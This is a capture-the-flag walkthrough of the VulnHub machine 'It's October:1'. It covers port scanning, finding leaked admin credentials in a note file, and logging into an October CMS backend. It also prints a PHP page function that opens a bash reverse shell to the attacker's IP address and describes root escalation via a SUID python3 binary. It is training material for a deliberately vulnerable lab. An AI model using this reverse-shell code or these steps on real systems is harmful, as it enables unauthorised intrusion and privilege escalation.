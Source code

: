 # It's October:1 - VulnHub

[My Tomcat Host:1 VulnHub link](https://www.vulnhub.com/entry/its-october-1,460/)

## arp scan to find out our machine ip address on the network
![arp-scan](images/ItsOctober-1/arp-scan.png)

we found out our target ip address is 192.168.56.104

## Nmap
first we need to check what ports and services are available for us in the target machine using nmap tool:
![nmap-scan](images/ItsOctober-1/nmap-scan.png)

**command exaplain:**

**nmap** - network scanner tool used to discover hosts and services on machines.

**-sC** - preforming script scan using default scripts.

**-sV** - preforming service version detection.

**-oA** - output in all formats.

it is recommanded to scan the machine at the background for all ports while enumerating the machine, becuase all ports scan found the same ports I wont show it.

from the nmap scan we discovered 4 ports are open:

*port 22* - ssh OpenSSH.

*port 80* - Apache httpd.

*port 3306* - MYSQL.

*port 8080* - Apache httpd.

## httpd servers:

first we visit the two websites that are available to us:

*on port 80*

![web-port-80](images/ItsOctober-1/web-port-80.png)

*on port 8080*

![web-port-8080](images/ItsOctober-1/web-port-8080.png)

if we investigate the two websites we discover on My Notes website html code(on port 8080):

```html
<!DOCTYPE html>
<html>
<head>	
	<title>My Note</title>
</head>
<body>
	<img src="mynote.jpg" width="100%">
	<!-- 
		<a href="mynote.txt">My Note</a>
	 -->
</body>
</html>
```

when we visit http://192.168.56.104:8080/mynote.txt we get the following credentials:

username: admin

password: adminadmin2

now usually when enumarating http website we should run on the background tool to discover hidden pages or directories

I will be using gobuster:

![gobuster-scan](images/ItsOctober-1/gobuster-scan.png)

**command exaplain:**

**gobuster** - tool used to brute-force: URIs in web sites,DNS subdomains and Virtual Host names on web servers.

**dir** - directory brute-force mode.

**-u** - target url.

**-w** - wordlist to use in the brute-force.

**-o** - file output.

**-t** - maximum number of threads to use.

from the scan we got interesting page: /backend - managing section for the website.

we got a login screen were we get to use the credentials we found earlier.

and we got in!

![web-backend](images/ItsOctober-1/backend-web.png)

now, we need to find a way to get a shell probably by creating new page that can get us a reverse shell.

after searching this backend section, found a way to add new page in cms section:

![cms](images/ItsOctober-1/cms.png)

a little searching on google about the October framework (the website build in framework) tells us it's a php framework, in order to add a new page with php code we need to add the php code in the code section in a function called onStart:

```php
	function onStart() 
	{
		exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.103/1234 0>&1'"
	}
```

![reverseshell-code](images/ItsOctober-1/php-reverse-shell-code.png)

192.168.56.103 - attacker ip address.

1234 - attacker port.

if we save the page, open listening on port 1234 using netcat and browse to the page created we get a shell:

![initial-shell](images/ItsOctober-1/init-shell.png)

**command explain:**

**nc** - netcat, tcp and udp tool for connections and listens.

**-l** - listen for connections.

**-v** - verbose output.

**-p** - port number.

after getting the initial shell, we do some enumarating: investigating the existing users, maybe sudo permissions or running services at localhost, but found nothing.

then we search for files with suid as root - suid is special type of file permissions to run a file as it's owner, so when we run file with root owner and suid we are running as root, we can use this files for privilege escalation to get to root.

in order to find suid root files:

![suid-search](images/ItsOctober-1/suid-search.png)

**command explain:**

**find** - command to search files.

**-user** - file is owned by...

**-perm** - file with permission (find suid file set as 4000)

**-print** - print the full file name.

**2>/dev/null** - redirect errors to /dev/null - meaning not printed on console.

one of the executable file set as root is python3!

we can use to pass command to the shell (as root) and get a shell:

![root](images/ItsOctober-1/root.png)

and we got to root!
